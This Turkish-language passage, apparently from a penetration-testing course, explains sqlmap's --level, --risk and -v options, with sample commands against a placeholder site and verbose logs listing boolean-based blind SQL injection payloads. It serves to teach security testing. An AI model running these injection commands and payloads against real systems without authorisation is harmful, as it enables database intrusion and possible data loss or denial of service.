 Bu tür talepler için --level ve --risk seçenekleri kullanılmalıdır:

* --level (1-5, varsayılan 1) seçeneği, kullanılan vektörleri ve sınırları, başarı beklentilerine göre genişletir (yani, beklenti ne kadar düşükse, seviye o kadar yüksek olur).

* Risk (1-3, varsayılan 1) seçeneği, kullanılan vektör kümesini hedef tarafta sorunlara neden olma risklerine göre genişletir (yani, veritabanı girişi kaybı veya hizmet reddi riski).

Kullanılan sınırlar (boundaries) ve payloadlar arasındaki farkları kontrol etmenin en iyi yolu, **--level** ve **--risk** değerleri için, **-v** seçeneğini kullanarak ayrıntı düzeyini (verbosity level) ayarlamaktır. **-v 3** veya daha yüksek bir ayrıntı düzeyinde (örneğin, **-v 3**), kullanılan [PAYLOAD] içeren mesajlar şu şekilde görüntülenecektir:

```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3 --level=5

...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

Öte yandan, varsayılan --level değeri ile kullanılan payload'lar oldukça küçük bir sınır kümesine sahiptir:

```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

Vektörlere gelince, kullanılan payloadları aşağıdaki gibi karşılaştırabiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u www.example.com/?id=1
...SNIP...
[14:42:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
...SNIP...
```
